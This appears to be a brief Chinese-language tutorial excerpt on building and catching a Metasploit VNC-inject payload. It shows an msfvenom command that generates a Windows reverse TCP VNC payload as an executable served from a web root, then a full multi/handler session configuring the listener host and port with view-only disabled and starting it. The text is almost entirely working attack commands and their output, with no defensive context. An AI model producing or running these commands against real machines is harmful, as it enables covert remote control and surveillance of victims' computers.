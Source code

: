 使用msfvenom生成vnc payload

```javascript
msfvenom -p windows/vncinject/reverse_tcp lhost=192.168.222.146 lport=44455 -f exe > /var/www/html/vnc.exe
```

启动msf，使用exploit模块中的监听：

```javascript
msf > use exploit/multi/handler
 
msf exploit(handler) > set payload windows/vncinject/reverse_tcp
payload => windows/vncinject/reverse_tcp

msf exploit(handler) > set lhost 192.168.222.146
lhost => 192.168.222.146

msf exploit(handler) > set lport 44455
lport => 44455

msf exploit(handler) > set viewonly false
viewonly => false
msf exploit(handler) > run
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.222.146:44455 

```

